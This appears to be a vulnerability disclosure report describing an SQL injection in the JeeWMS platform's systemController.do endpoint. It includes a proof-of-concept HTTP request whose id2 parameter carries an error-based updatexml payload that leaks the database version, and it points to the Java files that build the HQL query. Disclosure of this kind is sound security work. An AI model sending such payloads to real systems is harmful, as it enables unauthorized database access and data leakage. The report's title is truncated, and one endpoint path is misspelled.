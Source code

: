 ### 💥 Vulnerability Report : SQL Injection in 

------

**1. Product:**

- **Name:** JeeWMS 平台
- **Version:** 最近版
- **Repository:** https://gitee.com/erzhongxmu/JEEWMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /jeewms/systemController.do`

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the id1 and id2 parameters in the/jiewms/systemControl.do interface for attack. The backend uses this parameter in dynamic HQL construction, but does not perform input filtering and parameter precompilation, resulting in SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST http://xxx/jeewms/systemController.do HTTP/1.1
Host: xxx
Cookie: JSESSIONID=093BDB6C9E298905D25C65DE49C2A5C4; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

diffDataVersion=1&id1=1&id2=1' and updatexml(1,concat('~',version(),'~'),1)='1
```

If vulnerable, the response will contain an error message such as:

![image-20251029104908916](./assets/image-20251029104908916.png)

This confirms that the SQL injection is successful and discloses database user information.



**6. Vulnerable Code Reference**

	src/main/java/org/jeecgframework/web/system/controller/core/SystemController.java

![image-20251029105421542](./assets/image-20251029105421542.png)

	src/main/java/org/jeecgframework/core/common/service/impl/CommonServiceImpl.java

![image-20251029105510653](./assets/image-20251029105510653.png)

```
src/main/java/org/jeecgframework/core/common/dao/impl/GenericBaseCommonDao.java
```

![image-20251029105629565](./assets/image-20251029105629565.png)

	The above code receives the id1 or id2 parameters input by the client and directly concatenates them into the HQL statement without any filtering or precompilation processing. Therefore, attackers can inject arbitrary HQL code through id1 or id2 parameters, leading to SQL injection vulnerabilities.



------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- https://gitee.com/erzhongxmu/JEEWMS
- 